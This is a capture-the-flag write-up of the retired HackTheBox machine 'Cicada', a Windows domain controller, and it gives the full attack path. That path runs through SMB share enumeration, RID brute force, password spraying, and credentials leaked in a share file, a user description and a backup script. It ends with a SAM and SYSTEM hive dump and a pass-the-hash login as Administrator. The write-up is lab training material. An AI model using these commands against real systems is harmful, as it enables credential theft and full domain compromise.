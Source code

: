 
# ✨ Cicada — HackTheBox Writeup (Retired)

🌐 **IP:** `10.10.11.35`  
🖥️ **OS:** Windows Server 2022  
🎯 **Difficulty:** Medium  
📚 **Category:** Active Directory, Kerberos, SMB, LDAP, WinRM  
👤 **Author:** [theblxckcicada](https://app.hackthebox.com/users/796798)  
🧰 **Tools:** `nmap`, `rustscan`, `nxc`, `crackmapexec`, `smbclient`, `evil-winrm`, `impacket-secretsdump`  
🎓 **Certs:** eCPPTv3, Dante Lab | Preparing for OSCP

---

## 🔍 Initial Enumeration

### 🚀 RustScan
```bash
rustscan -a 10.10.11.35 -- -sV
```

```text
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0
61979/tcp open  msrpc         Microsoft Windows RPC
```

🧠 This host is most likely a domain controller for `cicada.htb`.

---

## 📡 DNS Enumeration
```bash
dig any cicada.htb @10.10.11.35
```

🗂️ Records found:
- `A` record for `cicada.htb`
- Nameserver: `cicada-dc.cicada.htb`
- Multiple `AAAA` records

---

## 📂 SMB Share Enumeration

```bash
nxc smb 10.10.11.35 -u x -p '' --shares
```

📁 Shares:
- `HR` (READ)
- `DEV`
- `NETLOGON`
- `SYSVOL`

### 📥 Accessing HR Share
```bash
smbclient -N //10.10.11.35/HR
smb: \> get "Notice from HR.txt"
```

📄 Inside the file:
```
Default password: Cicada$M6Corpb*@Lp#nZp!8
```

---

## 🧑‍💻 User Enumeration

### RID Brute-Force
```bash
nxc smb 10.10.11.35 -u x -p '' --rid-brute
```

🧍 Users:
- michael.wrightson
- sarah.dantelia
- john.smoulder
- david.orelious
- emily.oscars

---

## 🎯 Password Spray

```bash
nxc smb 10.10.11.35 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
```

✅ Valid credentials:
- `michael.wrightson`

---

## 💡 Leaked Password in Description

```bash
nxc smb 10.10.11.35 -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
```

📌 Found:
```
Just in case I forget my password is aRt$Lp#7t*VQ!3
```

---

## 🔓 Access as david.orelious

```bash
smbclient -U david.orelious \10.10.11.35\DEV
smb: \> get Backup_script.ps1
```

Inside:
```powershell
$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
```

---

## 🛠️ WinRM Access as emily.oscars

```bash
evil-winrm -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt' -i 10.10.11.35
```

👤 Group memberships:
- Backup Operators ✅
- Remote Management Users ✅

---

## 🧪 Privilege Escalation (Backup Privileges)

```powershell
reg save hklm\sam C:\sam.save
reg save hklm\system C:\system.save
```

Download & extract:
```bash
impacket-secretsdump -system system.save -sam sam.save LOCAL
```

NT hash:
```
Administrator:500:...:2b87e7c93a3e8a0ea4a581937016f341:::
```

---

## 🏁 Final Access

```bash
evil-winrm -i 10.10.11.35 -u administrator -H 2b87e7c93a3e8a0ea4a581937016f341
```

🎉 Rooted!

---

